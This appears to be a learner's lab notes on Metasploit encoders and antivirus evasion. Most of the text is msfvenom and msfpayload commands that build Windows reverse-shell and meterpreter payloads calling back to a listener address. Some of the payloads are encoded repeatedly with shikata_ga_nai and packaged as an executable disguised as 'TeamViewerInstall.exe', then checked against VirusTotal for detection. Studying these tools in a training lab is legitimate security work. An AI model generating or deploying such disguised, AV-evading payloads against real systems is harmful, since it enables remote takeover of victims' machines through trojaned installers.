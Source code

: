 - `Encoders` come into play with the role of changing the payload to run on different operating systems and architectures

|`x64`|`x86`|`sparc`|`ppc`|`mips`|
|---|---|---|---|---|
- They are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above.
- [This article from FireEye](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) details the why and the how of Shikata Ga Nai's previous rule over the other encoders.


If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward.
```shell-session
msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```

know combined with msfvenom
```shell-session
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

#### Generating Payload - With Encoding
```shell-session
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

If we want to look at the functioning of the `shikata_ga_nai` encoder, we can look at an excellent post [here](https://hatching.io/blog/metasploit-payloads2/).

- if we have a exploit and we need to see what are the encoders that supports for this
  we can use `show encoders`

```shell-session
msf6 exploit(ms09_050_smb2_negotiate_func_index) > show encoders

Compatible Encoders
===================

   Name                    Disclosure Date  Rank       Description
   ----                    ---------------  ----       -----------
   generic/none                             normal     The "none" Encoder
   x86/alpha_mixed                          low        Alpha2 Alphanumeric Mixedcase Encoder
   x86/alpha_upper                          low        Alpha2 Alphanumeric Uppercase Encoder
   x86/avoid_utf8_tolower                   manual     Avoid UTF8/tolower
   x86/call4_dword_xor                      normal     Call+4 Dword XOR Encoder
   x86/context_cpuid                        manual     CPUID-based Context Keyed Payload Encoder
```

### detection of payloads

we are creating a payload that is making a .exe file 
```shell-session
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```
![[metasploit/image 2.png]]

```shell-session
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```
we have done some changes hear so we can see the AV
![[metasploit/image 3.png]]

#### MSF - VirusTotal
Metasploit offers a tool called `msf-virustotal` that we can use with an API key to analyze our payloads
```shell-session
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```
still not enough

